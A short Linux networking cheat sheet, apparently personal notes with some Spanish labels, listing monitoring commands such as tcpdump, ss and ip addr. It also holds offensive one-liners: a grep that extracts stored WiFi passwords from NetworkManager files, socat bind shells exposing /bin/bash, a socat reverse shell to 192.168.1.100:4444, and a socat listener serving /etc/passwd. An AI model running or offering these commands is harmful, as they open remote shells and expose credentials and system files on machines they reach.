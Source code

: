 # Networking


ip2route suite


Monitoring

    iftop

    tcpdump

    netstat -tuln

    ss -tuln

    dmesg | grep -i net

    nload

    bmon

    curl ifconfig.me

    ip addr
    ip a
    hostname -I ; -i
    ip -s -s neigh flush all  (limpiar ARP cache)



    ls -lha /etc/NetworkManager/system-connections/*
    grep -i 'psk' /etc/NetworkManager/system-connections/* (Obtener WIFI passwords)
    

    

## tcpdump


    tcpdump -i eth0 -nn -e

    


## Connections

    REVERSE_IP=$(hostname -I | tr -d " ")

    socat TCP-LISTEN:4444 EXEC:/bin/bash
    socat TCP-LISTEN:5555 SYSTEM:"id"
    socat TCP-CONNECT:192.168.1.100:4444 EXEC:/bin/sh
    socat TCP-LISTEN:6666 EXEC:"cat /etc/passwd"


    ss


